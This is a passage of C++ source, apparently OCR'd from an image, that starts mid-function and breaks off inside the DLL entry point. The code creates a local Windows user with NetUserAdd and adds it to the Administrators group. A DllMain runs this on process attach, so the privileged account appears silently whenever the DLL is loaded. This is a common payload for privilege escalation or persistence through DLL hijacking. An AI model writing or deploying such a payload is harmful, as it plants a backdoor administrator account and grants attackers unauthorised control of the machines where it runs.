 ```c++
    rc = NetUserAdd(
        NULL,            // local server
        1,                // information level
        (LPBYTE)&ud,
        NULL            // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                    // local server
        _T("Administrators"),
        0,                        // information level
        (LPBYTE)&gd,
        1                        // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
```
